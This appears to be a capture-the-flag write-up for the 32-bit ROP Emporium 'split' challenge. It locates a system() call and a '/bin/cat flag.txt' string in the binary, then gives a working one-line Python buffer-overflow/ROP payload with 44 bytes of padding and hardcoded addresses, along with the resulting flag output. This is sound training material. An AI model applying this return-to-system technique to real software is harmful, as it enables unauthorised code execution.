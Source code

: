 In this challenge, there's 2 interesting things: `usefulFunction` and `usefulString`:

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```

```
                             usefulString                                    XREF[1]:     Entry Point(*)  
        0804a030 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
```

Since this is x86, we can call the system function and it will use the first stack variable as the input. Since we already got the `/bin/cat flag.txt` input's address, we now need the call `system` address. Disassembling the `usefulFunction` gives us the address (Note: We need to the `call system@plt` address, not the `system@plt` address). The padding size to overwrite the return address of the `pwnme` function in this challenge is 44.

With both of the instructions, we can now build a payload to get the string:

```bash
python -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\x1a\x86\x04\x08" + b"\x30\xa0\x04\x08")' | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
